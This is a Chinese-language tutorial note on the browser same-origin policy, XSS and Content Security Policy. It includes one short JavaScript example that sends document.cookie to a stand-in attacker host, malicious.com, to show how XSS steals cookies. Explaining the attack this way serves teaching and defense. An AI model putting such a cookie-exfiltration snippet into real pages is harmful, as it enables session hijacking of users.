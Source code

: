 ```yaml
---
title: Ajax
date: 2020-04-23 22:35:44
categories: JavaScript
sidemenu: true
toc: 'content'
order: 20
author: chencicsy
tags:
  - 前端
  - JavaScript
  - 动态语言
description:
---
```


## 同源策略

---

1. 同源策略
- 如果两个 url 的协议、域名、端口都相同，那么就称这两个 url 同源。浏览器默认两个相同的源之间是可以相互访问资源和操作 dom 的，而两个不同的源之间若想要访问资源或操作 dom，那么就会有一套基础的安全策略的制约，这就叫同源策略
- 第一：dom 层面。同源策略限制了来自不同源的 js 脚本对当前 dom 对象读写的操作

```js
/**
 * 一般是在当前页面打开的另一个页面互相操作
 * 当两个页面不同源时无法互相操作 dom
 */

let opener = window.opener;
let dom = opener.document;
// 获取并操作子页面的 dom
```
- 第二：数据层面。一般是表现在不同源的站点获取当前站点的 Cookie、IndexDB、LocalStorage 等数据，通常还是通过 opener 来访问第一个页面中的上述数据，不同源无法获取
- 第三：网络层面。同源策略限制了 XMLHttpRequest 等方式将站点的数据发送不同的站点，默认情况下不能跨域访问资源

2. 外链文件对页面的影响
- 页面中可以接入任何资源，而同源策略要让一个页面的所有资源都存放在同一个服务器上，这明显是不合理的。也就是说，现在的部分标签支持跨域的，可以通过它们引用第三方资源
- 但这就造成了恶意程序可以向 html 插入恶意脚本，而浏览器是无法区分被插入的文件是恶意的还是正常的，这样脚本就被寄生在页面之中
- 除了修改用户的搜索结果、改变一些内容的连接指向外，它还能将页面的敏感数据(Cookie、IndexDB、LocalStorage) 通过 xss 的手段发送给服务器

```js
/**
 * 一般是不小心点击了页面的一个恶意链接
 */
function onClick(){
  let url = `http://malicious.com?cookie = ${document.cookie}`
  open(url)
}
onClick()
```
- 为了解决 xss 攻击，浏览器引入了内容安全策略(csp)。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码(Content-Security-Policy)
